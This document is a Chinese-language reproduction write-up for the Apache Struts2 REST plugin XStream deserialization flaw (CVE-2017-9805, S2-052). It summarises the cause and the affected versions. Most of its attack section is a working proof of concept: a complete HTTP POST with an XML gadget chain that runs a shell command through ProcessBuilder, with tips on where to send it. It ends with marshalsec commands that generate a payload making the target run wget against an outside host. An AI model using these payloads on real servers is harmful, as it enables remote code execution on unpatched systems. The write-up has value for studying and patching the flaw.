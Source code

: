 # （CVE-2017-9805）s2-052

## 一、漏洞简介

Struts2-Rest-Plugin是让Struts2能够实现Restful API的一个插件，其根据Content-Type或URI扩展名来判断用户传入的数据包类型，有如下映射表：

* | 扩展名 | Content-Type | 解析方法 |
* | --- | --- | --- |
* | xml | application/xml | xstream |
* | json | application/json | jsonlib或jackson(可选) |
* | xhtml | application/xhtml+xml | 无 |
* | 无 | application/x-www-form-urlencoded | 无 |
* | 无 | multipart/form-data | 无 |

jsonlib无法引入任意对象，而xstream在默认情况下是可以引入任意对象的（针对1.5.x以前的版本），方法就是直接通过xml的tag name指定需要实例化的类名：

```
<classname></classname>
//或者
<paramname class="classname"></paramname>

```

所以，我们可以通过反序列化引入任意类造成远程命令执行漏洞，只需要找到一个在Struts2库中适用的gedgetType。

> 总得来说，用了Struts2-Rest-Plugin插件，这个插件是根据Content-Type或者扩展名来选择解析方法，xstream在默认情况下是可以引入任意对象的，所以他在处理xml的时候会发生RCE（xstream处理xml数据时，未对数据做任何过滤，在反序列化将xml数据转换成object时导致的RCE）。利用起来就是改Content-Type或扩展名 .xml application/xml 发恶意xml

## 二、漏洞影响

Struts 2.1.2 - Struts 2.3.33

Struts 2.5 - Struts 2.5.12

## 三、复现过程

## POC

**没回显 Response 500 但命令执行**

```bash
POST /orders/3 HTTP/1.1
Host: 10.17.14.18:8081
Content-Length: 1655
Cache-Control: max-age=0
Origin: http://baidu.com:8081
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://10.17.14.18:8081/orders/3/edit
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
Cookie: JSESSIONID=249144A9BEB141072470A76C2A61D663
Connection: close

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>

```

访问ip：port 直接到/orders 你可以直接change method 然后加上body 改Content-type 为xml Response status code 500 执行成功了（不要怀疑 我也怀疑 后来看了一下文件 是真的）

也可以编辑之后保存 会有一个POST /orders/5 或者其他数字 有body的 改掉body 改Content-type 为xml 也可以执行

编辑完之后还会有一个/orders.xhtml?statusCode=303 change method 删掉body 改Content-type 为xml 文件名就不用改了 不然404了

> payload生成
> 下载 https://github.com/ianxtianxt/marshalsec
> mvn clean package -DskipTests
> java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO wget www.0-sec.org -O /tmp/1.html >1.txt
> 注：针对XStream支持很多种Payload，找一个Struts2也支持的即可,需要找到Struts2库中适用的gedget（事实上我找了，都试了，只有ImageIO好使，文章的都是骗人了，哭了）

